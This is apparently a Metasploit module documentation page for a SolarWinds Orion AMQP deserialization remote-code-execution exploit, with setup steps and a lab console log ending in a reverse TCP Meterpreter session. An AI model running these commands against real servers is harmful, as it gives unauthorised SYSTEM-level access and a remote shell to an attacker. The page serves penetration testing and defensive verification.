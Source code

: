 ## Vulnerable Application

The SolarWinds Information Service (SWIS) is vulnerable to RCE by way of a crafted message received through the
AMQP message queue. A malicious user that can authenticate to the AMQP service can publish such a crafted
message whose body is a serialized .NET object which can lead to OS command execution as NT AUTHORITY\SYSTEM.

## Verification Steps

1. Install the application (tested SolarWindows Orion NPM versions 2020.2.5 and 2020.2.6)
   1. After installation is complete, create an AMQP account so you know the credentials. The default account is `orion`.
   2. Open a command prompt in `C:\Program Files (x86)\SolarWinds\Orion\RabbitMQ\sbin>`
   3. Run: `.\rabbitmqctl.bat add_user "hax" "Password1!"`
   4. Run: `.\rabbitmqctl.bat set_permissions hax .* .* .*`
   5. Run: `.\rabbitmqctl.bat set_user_tags hax administrator`
2. Start msfconsole
3. Do: `use exploit/windows/misc/solarwinds_amqp_deserialization`
4. Set the `RHOSTS`, `USERNAME`, `PASSWORD`, `PAYLOAD` and payload related-options
5. Do: `run`
6. You should get a shell.

## Options

## Scenarios

### SolarWinds Orion NPM 2020.2.6 on Windows Server 2019 x64

```
msf6 > use exploit/windows/misc/solarwinds_amqp_deserialization 
[*] Using configured payload cmd/windows/powershell/x64/meterpreter/reverse_tcp
msf6 exploit(windows/misc/solarwinds_amqp_deserialization) > set RHOSTS 192.168.159.17
RHOSTS => 192.168.159.17
msf6 exploit(windows/misc/solarwinds_amqp_deserialization) > set USERNAME hax
USERNAME => hax
msf6 exploit(windows/misc/solarwinds_amqp_deserialization) > set PASSWORD Password1!
PASSWORD => Password1!
msf6 exploit(windows/misc/solarwinds_amqp_deserialization) > set VERBOSE true
VERBOSE => true
msf6 exploit(windows/misc/solarwinds_amqp_deserialization) > set PAYLOAD cmd/windows/powershell/meterpreter/reverse_tcp
PAYLOAD => cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/misc/solarwinds_amqp_deserialization) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(windows/misc/solarwinds_amqp_deserialization) > run

[*] Powershell command length: 4175
[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] 192.168.159.17:5671 - Successfully connected to the remote server.
[*] 192.168.159.17:5671 - Successfully opened a new channel.
[*] 192.168.159.17:5671 - Successfully published the message to the channel.
[*] Sending stage (186438 bytes) to 192.168.159.17
[*] Sending stage (186438 bytes) to 192.168.159.17
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.17:54960) at 2023-03-17 13:20:03 -0400

meterpreter >
```
